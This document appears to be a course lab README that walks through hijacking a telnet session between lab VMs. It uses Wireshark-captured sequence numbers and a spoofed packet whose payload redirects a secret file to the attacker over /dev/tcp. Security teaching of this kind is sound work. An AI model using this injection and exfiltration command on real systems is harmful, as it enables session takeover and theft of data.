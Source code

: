 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network. This README uses the following IP addresses.

| VM Name     | IP Address  |
|-------------|-------------|
| VM1         | 10.0.2.4    |
| VM2         | 10.0.2.5    |
| VM3         | 10.0.2.6    |

### Steps

1. let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. the client uses this *echo* command to create a secret file on the server.

![alt text](lab-tcp-hijack-echo.png "Lab tcp session hijacking echo")

3. the client uses the *cat* command to confirm the file now exists and is located at /home/seed/secret:
![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

4. let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-start-wireshark.png "Lab tcp hijack start wireshark")
![alt text](lab-tcp-hijack-start-capture.png "Lab tcp hijack start capture")

5. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

6. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.

This image shows the ip addresses, and the ttl attribute.
![alt text](lab-tcp-hijack-ip-header.png "Lab tcp hijack latest tcp capture - part 1, ip header")

This image shows the port numbers, the next sequence number, the acknowledgment number, and the window size - still the same packet.
![alt text](lab-tcp-hijack-tcp-header.png "Lab tcp hijack latest tcp capture - part 2, tcp header")

7. the above packet provides the information which the attacker needs to know in order to perform the tcp reset attack. now, the attacker, mimicking the client, only needs to send one single regular TCP packet to the server. To send a regular TCP packet, a python script named send_tcp.py is provided. When running this script, it will send a TCP packet to a destination. You need to change the script so that the following 9 lines match with your situation.

```console
source_ip = "10.0.2.4"
destination_ip = "10.0.2.5"
source_port = 59830
destination_port = 23
sequence_num = 3366342961
acknowledgment_num = 4096614496
ttl_value = 64
window_size = 501
tcp_payload = "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r"
```

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the next sequence number is *3366342961*, the acknowledgment number is *4096614496*; the source port (in this example) is *59830*, the destination port is 23. the tcp window size (in this example) is 501, the time to live (ttl) value is 64. The tcp data we can use is: "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r".

**Explanation**: The telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", but we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings.

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address.

8. Once the above 9 lines are modified correctly, we are ready to launch the attack, which is just running the python script. Before running the python script, the attacker needs to open another terminal window so that the attacker can listen on a port at the attacker's IP address - here we choose port 9090, which matches with what is specified in the python script.

8.1. Listening in one terminal window:
![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

8.2. Run python script in another terminal window:
- before and after pressing enter to run the script:
![alt text](lab-tcp-hijack-before-enter.png "Lab tcp hijacking attack before pressing enter")
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after pressing enter")

9. once the attacker pressed enter to execute the above script, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.
